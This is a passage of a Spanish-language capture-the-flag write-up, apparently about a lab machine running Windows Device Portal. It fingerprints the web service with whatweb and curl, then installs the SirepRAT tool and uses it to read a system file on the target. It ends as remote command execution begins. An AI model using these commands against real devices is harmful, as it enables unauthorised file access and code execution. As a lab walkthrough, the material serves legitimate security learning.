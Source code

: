 ### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.204:8080
```

Es un Windows Device Portal con un HTTPapi y un WWW-Athentication.

#### Checkear la web {-}

Si entramos en la url `http://10.10.10.204:8080`, Vemos un panel basic authentication.


#### Checkeando la cavezera con curl {-}

```bash
curl -s -X GET "http://10.10.10.204:8080"
curl -s -X GET "http://10.10.10.204:8080" -I
```

Vemos en la cabezera que el basic-auth es sobre un `Windows Device Portal`
Buscamos si existe una vulnerabilidad asociada en google poniendo `Windows Device Portal github exploit` y encontramos
una pagina interesante de [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT) que nos permitiria ejecutar RCE.
## Vulnerability Assessment {-}

### Windows Device Portal {-}

```bash
git clone https://github.com/SafeBreach-Labs/SirepRAT
cd SirepRAT
python3 setup.py install
pip install -r requirements.txt

python3 SirepRAT.py
```

Intentamos leer un archivo de la maquina victima

```bash
python3 SirepRAT.py 10.10.10.204 GetFileFromDevice --remote_path "C:\Windows\System32\drivers\etc\hosts" --v
```

Aqui vemos que podemos leer archivos del systema. Intentamos ejecutar comandos.

Nos ponemos en escucha por trasa ICMP

```bash
tcpdump -i tun0 icmp -n
```

y ejecutamos el comando
